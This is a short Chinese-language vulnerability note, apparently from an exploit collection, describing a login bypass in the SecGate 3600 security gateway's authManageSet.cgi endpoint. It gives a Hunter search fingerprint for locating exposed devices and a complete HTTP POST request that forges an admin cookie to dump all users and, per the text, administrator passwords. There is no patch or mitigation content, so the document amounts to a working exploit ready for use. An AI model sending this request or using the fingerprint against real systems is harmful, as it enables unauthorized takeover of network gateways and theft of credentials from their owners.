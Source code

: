 # 网神SecGata 3600安全网关authManageSet.cgi 接口登录绕过漏洞

# 一、漏洞简介
SecGate3600是网神信息技术(北京)股份有限公司旗下一款安全网关产品，网神 SecGate3600 存在登录绕过漏洞，攻击者利用该漏洞可获取管理员密码等敏感信息，进一步控制系统。

# 二、漏洞简介
+ 网神SecGata 3600-A1500

# 三、资产测绘
+ hunter`web.body="sec_gate_image/login_02.gif"`
+ 特征

![1702017961550-3103e894-3910-4147-8286-4abade065d93.png](./img/ASmvAfvQqr_SQdi2/1702017961550-3103e894-3910-4147-8286-4abade065d93-247789.png)

# 四、漏洞复现
```java
POST /cgi-bin/authUser/authManageSet.cgi HTTP/1.1
Host: {hostname}
Content-Type: application/x-www-form-urlencoded
Cookie: sw_login_name=admin
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

type=getAllUsers&_search=false&nd=1645000391264&rows=-1&page=1&sidx=&sord=asc
```

![1702017993631-08fad56b-a74c-498f-82ef-a9ea5bdda175.png](./img/ASmvAfvQqr_SQdi2/1702017993631-08fad56b-a74c-498f-82ef-a9ea5bdda175-354774.png)



> 更新: 2024-02-29 23:57:15  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lz3gvfl7e9gp74wi>